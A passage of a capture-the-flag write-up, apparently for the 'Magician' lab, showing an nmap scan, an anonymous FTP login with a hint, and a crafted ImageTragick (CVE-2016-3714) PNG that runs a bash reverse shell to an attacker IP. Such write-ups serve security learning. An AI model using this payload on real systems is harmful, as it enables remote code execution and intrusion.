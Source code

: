~~~
|     Content-Language: en
|     Content-Length: 465
|     Date: Fri, 30 Apr 2021 09:52:06 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505 
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http       nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
~~~

## FTP

Attempting to connect to the FTP service as anonymous will succeed and provide us with a hint. However, there is nothing else to expect.

~~~
kali@kali:/data/vpn$ ftp magician 
Connected to magician.
220 THE MAGIC DOOR
Name (magician:kali): anonymous
331 Please specify the password.
Password:
230-Huh? The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
230 Login successful.
ftp> ls -la
550 Permission denied.
ftp: bind: Address already in use
ftp> cd /
550 Permission denied.
ftp> 
~~~

## Web (8080)

Browsing http://magician:8080 will show a page that converts a PNG file to a JPG file.

As the hint given by the FTP was referring to a vulnerability (https://imagetragick.com, CVE-2016–3714), we can guess that we have to exploit this vulnerability by uploading a malicious PNG file.

After several failed attempts, I eventually found a working exploit [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik#exploit-v1). Below is the code to make the malicious PNG file:

~~~
kali@kali:/data/magician/files$ cat > image.png << EOF
> push graphic-context
> encoding "UTF-8"
> viewbox 0 0 1 1
> affine 1 0 0 1 0 0
> push graphic-context
> image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
> pop graphic-context
> pop graphic-context
> EOF
~~~
